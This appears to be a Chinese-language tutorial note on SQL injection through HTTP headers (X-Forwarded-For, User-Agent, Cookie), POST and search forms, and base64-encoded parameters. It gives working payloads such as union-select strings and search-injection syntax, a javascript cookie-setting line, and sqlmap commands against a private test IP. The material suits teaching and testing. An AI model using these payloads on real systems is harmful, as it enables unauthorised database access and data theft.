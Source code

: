# 其他注入法(下)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 HTTP注入 [(详情)](https://www.cnblogs.com/softidea/p/5325079.html)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 利用HTTP协议头部未进行过滤检查进行注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: XFF、UserAgent、[Cookie](https://www.jianshu.com/p/186ed9bf2951)(头文件)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.X-Forwarded-For简称XFF头，它代表了客户端的真实IP，通过修改他的值就可以伪造客户端IP
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;利用burpsuite的抓包及Repeater模块进行测试攻击，或者抓包头部信息利用SQLMap进行检测攻击

```
    1.1 利用burpsuite+Repeater模块进行XFF检测攻击
        
        查库: X-Forwarded-for: 127.0.0.1' union select 1,2,database()#,常规查询手法
    1.2 利用burpsuite+sqlmap组合检测注入
        测试注入点，发现XFF返回IP，那么可能存在XFF注入，burp抓包，添加x-forwarded-for:*，将raw的信息存为txt文件
        利用burpsuite抓包出文件保存到 txt 文本中，再利用 SQLMap -r 文件 -D 等常规操作
      
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.User-agent记录软件程序的客户端信息的HTTP头字段，他可以用来统计目标和违规协议
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[报错注入法](https://www.jianshu.com/p/ee7f660295b1)、[延时注入法](https://www.freebuf.com/articles/web/105124.html)、SQLMap导入文件法
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 COOKIE注入(参数传递类型)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:php中，使用超全局变 $_GET，$_POST来接受参数。 asp中，使用Request.QueryString (GET)或 Request.Form (POST)来接收页面提交的参数值，程序不是先取GET中的数据，没有再取POST中的数据，还会去取Cookies中的数据，一般写防护的会忽略cookie防御
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: [cookie中转工具实战](https://blog.51cto.com/yttitan/1562382)、[cookie手注](https://www.cnblogs.com/sun-sunshine123/p/6861677.html)
```html
    javascript:alert（document.ｃookie ="id="+escape("1")); 回车弹出对话框内容为1
    刷新一下网页，如果正常显示，表示该页是用Request("ID")这样的格式收集数据，这种格式就可以试Cookies注入了
    
    SQLMap:  sqlmap.py -u "http://172.16.12.2/test.php" --cookie "id=1" --level 2  --level>2才会检查cookie
    
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 POST注入、搜索型注入
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[SQLMap POST](https://blog.csdn.net/u011781521/article/details/58594941)、[搜索型案例](https://blog.csdn.net/u011781521/article/details/57083482)、[手工+SQLMap实战](https://www.jianshu.com/p/26b1576b37bb)


```
    搜索型注入核心语法:'and 1=1 and '%'='
                    %' and 1=1--'
                    %' and 1=1 and '%'='
    在搜索框内进行测试，建议在hackbar并打开enable post data进行常规注入即可
    SQLMap则是先抓包成文件，利用 sqlmap -r 文件 -p

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 [编码参数(base64)](https://blog.csdn.net/qq_42357070/article/details/81512470)

```
    sqlmap -u "URL" --tamper base64encode --level=3 --current-db
    如果手工注入，配合小葵万能编码转换时，是要将整个参数和注入语句一起编码代入
```
















